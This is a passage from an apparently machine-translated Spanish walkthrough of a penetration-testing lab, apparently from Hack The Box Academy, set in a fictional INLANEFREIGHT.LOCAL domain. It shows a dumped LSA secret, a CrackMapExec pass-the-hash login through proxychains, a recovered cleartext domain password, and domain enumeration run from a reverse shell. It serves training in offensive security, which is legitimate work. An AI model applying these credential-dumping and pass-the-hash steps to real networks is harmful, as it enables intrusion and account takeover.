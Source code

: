 ```shell-session
NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
[*] Cleaning up... 
```

Confirmamos que estas credenciales funcionan usando`CrackMapExec`Y ahora tenemos un camino de regreso a este sistema si perdemos nuestra carcasa inversa.

  Explotación y escalada de privilegios

```shell-session
xnoxos@htb[/htb]$ proxychains crackmapexec smb 172.16.8.20 --local-auth -u administrator -H <redacted>

ProxyChains-3.1 (http://proxychains.sf.net)
[*] Initializing LDAP protocol database
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:135-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:ACADEMY-AEN-DEV) (signing:False) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] ACADEMY-AEN-DEV\administrator <redacted> (Pwn3d!)
```

Desde`secretsdump`Salida anterior, notamos una contraseña de ClearText, pero no es evidente de inmediato para qué usuario es. Podríamos tirar LSA nuevamente usando`CrackMapExec`y confirme que la contraseña es para el`hporter`usuario.

Ahora tenemos nuestro primer conjunto de credenciales de dominio para el dominio LaneFreight.local,`hporter:Gr8hambino!`. Podemos confirmar esto desde nuestro shell inverso en`dmz01`.

  Explotación y escalada de privilegios

```cmd-session
c:\DotNetNuke\Portals\0> net user hporter /dom
net user hporter /dom

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    hporter
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/1/2022 11:32:05 AM
Password expires             Never
Password changeable          6/1/2022 11:32:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/21/2022 7:03:10 AM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         
```
